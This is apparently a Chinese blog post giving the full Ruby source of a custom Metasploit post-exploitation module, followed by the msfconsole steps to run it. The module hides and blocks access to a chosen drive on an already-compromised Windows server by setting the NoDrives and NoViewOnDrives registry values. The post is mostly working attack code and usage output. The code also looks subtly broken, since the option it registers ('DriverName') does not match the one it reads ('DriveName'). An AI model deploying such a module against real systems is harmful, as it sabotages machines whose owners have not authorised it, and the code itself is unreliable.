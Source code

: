```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit自定义让磁盘失效的后渗透模块
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit自定义让磁盘失效的后渗透模块
lock: need
---
```


# Metasploit自定义让磁盘失效的后渗透模块

一个可以禁用Windows 操作系统上的指定硬盘的程序，这里我们将脚本命名为：disable_drives_by_binghe.rb。

具体内容如下：

```
##
# Author 冰河
# Date 2019-01-12
# Description 禁用Windows操作系统上的指定硬盘的程序
##

require 'msf/core'
require 'rex'
require 'msf/core/post/windows/registry'

class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  
  def initialize
    super(
        'Name'        => 'Driver Disabler',
        'Description' => 'This Modules Hides and Restrict Access to a Drive',
        'Author'      => 'binghe',
        'License'     => MSF_LICENSE
    )
    register_options(
    [
      OptString.new('DriverName', [true, 'Please SET the Drive Letter'])
    ], self.class)
    end
   
   def run
    drive_int = drive_string(datastore['DriveName'])
    key1 = "HKLM\\SoftWare\\Microsoft\\WIndows\\CurrentVersion\\Policies\\Explorer"
    exists = meterpreter_registry_key_exist?(key1)
    if not exists
      print_good("Hidden Drive") 
      meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_NATIVE)
      print_good("Restricting Access to the Drive")
      meterpreter_registry_setvaldata(key1, 'NoViewOnDrives', drive_int.to_s, 'REG_DWORD',REGISTRY_VIEW_NATIVE)
    else
      print_good("Key Exist, Skipping and Creating Values")
      print_good("Hiding Drive")
      meterpreter_registry_setvaldata(key1, 'NoDrives', drive_int.to_s, 'REG_DWORD', REGISTRY_VIEW_NATIVE)
      print_good("Restricting Access to the Drive")
      meterpreter_registry_setvaldata(key1, 'NoViewOnDrives', drive_int.to_s, 'REG_DWORD',REGISTRY_VIEW_NATIVE)
     end
     print_good("Disabled #{datastore['DriveName']} Drive") 
    end
    
   def drive_string(drive)
    case drive
      when 'A'
        return 1
      when 'B'
        return 2
      when 'C'
        return 4
      when 'D'
        return 8
      when 'E'
        return 16
       end
    end 
end
```

**注意：使用此脚本的前提是我们已经经过一系列的渗透拿到了目标Windows服务器的System权限。**

接下来我们将脚本传到Kali的/usr/share/metasploit-framework/modules/post/windows/manage目录下，此时，我们在Kali下操作：

```
msfconsole
msf auxiliary(scanner/ssh/ssh_brute_by_binghe) > use post/windows/manage/disable_drives_by_binghe 
msf post(windows/manage/disable_drives_by_binghe) > show options

Module options (post/windows/manage/disable_drives_by_binghe):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DriverName                   yes       Please SET the Drive Letter
   SESSION                      yes       The session to run this module on.

msf post(windows/manage/disable_drives_by_binghe) > set DriverName D
DriverName => D
msf post(windows/manage/disable_drives_by_binghe) > run
```

此时，查看目标服务器的D盘确实被成功禁用了。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
